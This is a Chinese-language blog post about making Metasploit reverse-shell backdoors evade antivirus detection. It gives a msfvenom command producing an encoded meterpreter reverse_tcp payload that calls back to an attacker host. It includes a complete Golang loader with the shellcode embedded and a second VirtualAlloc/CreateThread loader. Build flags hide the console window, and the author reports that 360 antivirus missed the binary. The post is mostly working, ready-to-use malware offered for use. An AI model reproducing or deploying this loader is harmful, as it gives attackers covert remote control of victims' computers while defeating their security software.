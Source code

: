 ```yaml
---
title: 关于msf反弹后门的免杀Tips
slug: msf-AntiVirus
date: 2017-04-20 13:09:24
tags:
- Hacker
categories:
- Hacker
---
```


msf是一个很强大的工具，我经常会在渗透用它来反弹shell，不过它生成的反弹后门会被不少杀软kill，这篇文章只是讲讲我在msf中一个简单的免杀小技巧
<!--more-->
## 思路
我以前接触过一款python的远控，其实说是远控，基本也就是nc的功能加了一个服务端的web页面控制并加了一些其他的功能可以用来管理诸多客户机
这款远控我下载下来用过，并用pyinstaller打包成了exe（缺点是体积太过庞大），惊奇的是，360不杀它，然后自己想着其他语言是不是也会这样，于是我用golang写了一个简易版nc反弹，编译之后，也是不查杀的。python和golang有一个共同点，就是可以用来内联C编程，所以C语言的shellcode按理说应该会达到同样的效果

## 得到shellcode
```bash
msfvenom -p windows/meterpreter/reverse_tcp LPORT=5555 LHOST=192.168.1.100 -e x86/shikata_ga_nai -i 11 -f py > 1.py
```
建议是生成32位的，如果想生成64位也可以，`-e x86/shikata_ga_nai -i 11`是指用`x86/shikata_ga_nai`编码迭代11次，然后生成py文件
py文件打开是shellcode，我们接下来对它进行一点小改造，对于python去执行shellcode的方法，相信小伙伴都已经不陌生，在《python灰帽子》中有讲解，我今天要使用的是golang，其实个人认为golang执行shellcode的代码是更简洁的

## Golang环境搭建
安装Golang32位（建议32位，与前面对应，在测试过程中，如果32位shellcode配合64位golang加32位gcc，就算把golang的GOARCH改为386也依旧会失败，建议一一对应），安装gcc32位（可以使用[TDM-GCC](http://tdm-gcc.tdragon.net/download)）

## 代码编写
```Golang
package main

/*
void call(char *code) {
    int (*ret)() = (int(*)())code;
    ret();
}
*/
import "C"
import "unsafe"

func main() {
    buf := ""
    buf += "\xdd\xc6\xd9\x74\x24\xf4\x5f\x33\xc9\xb8\xb3\x5e\x2c"
    buf += "\xc9\xb1\x97\x31\x47\x1a\x03\x47\x1a\x83\xc7\x04\xe2"
    buf += "\x46\x84\xfd\x72\xee\x0e\xb5\x96\x37\x04\x6d\x63\x9f"
    buf += "\xcc\xa4\x3a\x8e\x8c\xf7\x39\x81\xca\xe4\x42\xff\xce"
    buf += "\xa3\xa2\xdb\x06\xc0\x3f\xaf\x41\x73\xba\xf7\x20\x13"
    buf += "\x98\x8c\xff\xfa\x0a\xda\x6e\xf2\x6d\xc3\x81\x07\xc0"
    buf += "\x1b\x37\xeb\xa2\xa9\x32\x71\xaf\xe9\x20\xd1\xaa\x9e"
    buf += "\xbd\x82\xf3\x81\x1f\xab\xbf\xc4\xd9\x6c\x75\x37\x3a"
    buf += "\x53\x78\x90\x79\xaf\x93\x1b\xb3\x15\x09\xe5\x45\x5c"
    buf += "\x26\x0f\x0d\x16\x52\xf1\x8a\x7e\x8b\xc4\x50\x8e\x0a"
    buf += "\x38\x2f\x2b\x40\x73\x0b\xf0\x51\x5f\xc6\xbf\x04\x47"
    buf += "\x80\x36\xe5\x88\x88\xb3\xfc\xa0\x52\xfe\x92\x81\x8d"
    buf += "\x89\xf2\x6a\xcc\x7f\x9a\xe9\x1a\x30\x73\xa3\x63\x42"
    buf += "\x10\xe9\xcf\x62\xe4\x06\x52\xe1\x8d\x88\xfe\x52\xc4"
    buf += "\xc3\xed\x7a\x0e\x66\x5f\x8c\x2c\xef\xfa\xbd\x8c\x79"
    buf += "\x6c\x01\xe3\x5c\xde\xc4\x8a\x4c\x7d\x34\x32\xb5\x23"
    buf += "\x56\x6c\x52\x3f\x15\x26\x6a\xf8\x6b\x81\x2c\x23\x8d"
    buf += "\x41\x6e\x24\x30\xc6\xcb\xba\x26\xd4\x3b\x37\xd3\xc6"
    buf += "\xa8\x5a\x16\x8f\x1e\x27\xca\xcb\xda\x7f\x74\x62\xb2"
    buf += "\x62\xa6\xb1\xfc\x64\x53\x3a\xa7\xa4\x21\x3d\x79\x08"
    buf += "\x06\x74\x2a\xa2\xe7\x0d\x68\x16\xa3\x96\xe5\xad\x32"
    buf += "\x10\xa3\x0f\x49\xc3\x69\xa7\x5b\x61\x1a\xf8\x1d\x9e"
    buf += "\x9b\x3a\x00\xfc\x18\xc3\x42\x1a\xd6\x44\x5d\xfe\xc5"
    buf += "\xb6\x68\xd2\xad\x24\xda\x74\xa7\xf3\x66\x9a\x42\x7a"
    buf += "\x50\xf0\x0b\x47\xbc\xad\x6c\x1e\xca\xbe\x90\xca\xc3"
    buf += "\x8e\x5b\xde\x66\xe2\xb3\x20\x6f\x38\x17\xc1\xac\xfb"
    buf += "\xd3\x2f\x91\xa7\xff\x65\xd7\xd0\x25\x4c\xd4\xb3\x35"
    buf += "\x38\xa1\x82\xb8\x23\x42\xe9\xa5\x95\x8e\xc4\x35\xca"
    buf += "\x92\xfe\xde\x62\x70\xd6\x7a\x7f\xfd\xfb\xf0\x24\xbd"
    buf += "\x5d\x6d\x3d\x13\xbc\x1d\x25\x54\x9d\x0e\x68\xc8\x9a"
    buf += "\x10\x87\xf0\xc9\xac\x37\x57\x84\x23\x5f\x8a\xc0\xab"
    buf += "\x52\x6e\xae\x79\xa2\xdb\xff\xd8\x41\x28\x8b\xd3\x9d"
    buf += "\x68\x3c\x55\xf2\xfe\x0c\x8a\x38\xdf\xb3\x80\x9b\x70"
    buf += "\x2b\x4e\xe1\xfa\x0b\xfe\xf5\xc3\x1a\x0d\x83\xb0\x69"
    buf += "\xd0\x68\xfb\xe0\xae\xbd\x56\x52\x17\x9a\xf8\x8f\xc0"
    buf += "\x14\x8c\xb0\xf7\x0e\x87\xfa\x54\xf4\x04\x4a\x5a\xc8"
    buf += "\x89\x57\x0e\xbf\x7a\x76\x9b\xfe\xb8\x5f\x31\x42\xec"
    buf += "\xaf\x18\x9e\x3f\xf0\x09\x79\x86\xb3\x08\x29\x50\xfd"
    buf += "\xc3\x46\x7d\x24\x51\x5b\xd0\x81\x19\x6f\xc2\x2c\x17"
    buf += "\xab\xa3\xb7\xd9\x6f\x82\xd9\x37\x5f\x38\x01\xd8\xfd"
    buf += "\xfd\x11\x22\x61\xd0\x92\x45\x37\x4f\x6c\x4e\x91\x3b"
    buf += "\x42\x07\xc5\x77\xdc\x52\xd6\xc7\x9d\x7b\x62\xba\x1c"
    buf += "\x62\x3c\xde\xad\x96\x03\x55\xde\x9d\x52\x5c\x5d\x0c"
    buf += "\x73\x0e\xc3\x4c\xae\x7d\x1c\x7c\x64\xaf\xbb\xce\xa6"
    buf += "\x02\x0e\xb1\x51\xc4\x2d\x1b\x6b\xb7\x7c\xd9\x4b\xc3"
    buf += "\x8c\x43\xd6\x1b\x2a\x4f\x5e\x0a\x9a\xd5\x4d\x45\x64"
    buf += "\x6c\x0c\xc8\xf5\x59\xd7\x45\x36\x85\x99\x8d\x34\x65"
    buf += "\x21\xd3\x3b\x35\xce\x22\x29\x0c\x4e\xca\x48\x3f\x55"
    buf += "\x5d\x1b\xda\x35\xc1\x2d"
    // at your call site, you can send the shellcode directly to the C
    // function by converting it to a pointer of the correct type.
    shellcode := []byte(buf)
    C.call((*C.char)(unsafe.Pointer(&shellcode[0])))
}
```
以上就是全部代码
其实Golang还有个执行shellcode的方法是不用内联C语言的，但是我这边测试能接到反弹shell，但是执行命令会直接断开，代码我也贴出来
```Golang
package main

import (
    "syscall"
    "unsafe"
)

func ThreadExecute(Shellcode []byte) {
    var K32 = syscall.MustLoadDLL("kernel32.dll")
    var CreateThread = K32.MustFindProc("CreateThread")
    var VirtualAlloc = K32.MustFindProc("VirtualAlloc")
    var WaitForSingleObject = K32.MustFindProc("WaitForSingleObject")

    Addr, _, _ := VirtualAlloc.Call(0, uintptr(len(Shellcode)), MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    AddrPtr := (*[990000]byte)(unsafe.Pointer(Addr))

    for i := 0; i < len(Shellcode); i++ {
        AddrPtr[i] = Shellcode[i]
    }

    ThreadAddr, _, _ := CreateThread.Call(0, 0, Addr, 0, 0, 0)
    WaitForSingleObject.Call(ThreadAddr, 0xFFFFFFFF)
}
```
关于断开的原因，希望找出原因的能告知我一下，其实我们会发现，内联C是比较简单的

## 杀毒测试
在代码所在目录cmd执行`go build`得到二进制文件（或者可以用`go build -ldflags="-s -w"`减小体积，`go build -ldflags="-H windowsgui -s -w"`去掉命令窗口）
![](https://ooo.0o0.ooo/2017/04/20/58f840f0e9a00.png)
![](https://ooo.0o0.ooo/2017/04/20/58f840f8a704c.png)

可以看到360的静态查杀和动态查杀都没有发现
那么是否正常工作呢
![](https://ooo.0o0.ooo/2017/04/20/58f840f6d4862.png)

可以看到完全是没问题的，体积比python编译出来的小的多，编译出来是500多kb，然后经过upx压缩了一下（测试upx压缩后功能依旧正常），降低到了200多kb
![](https://ooo.0o0.ooo/2017/04/20/58f840dbdc23f.png)

## 视频
{% bilibili "aid:9975200" "quality:high" "danmaku" "allowfullscreen" %}
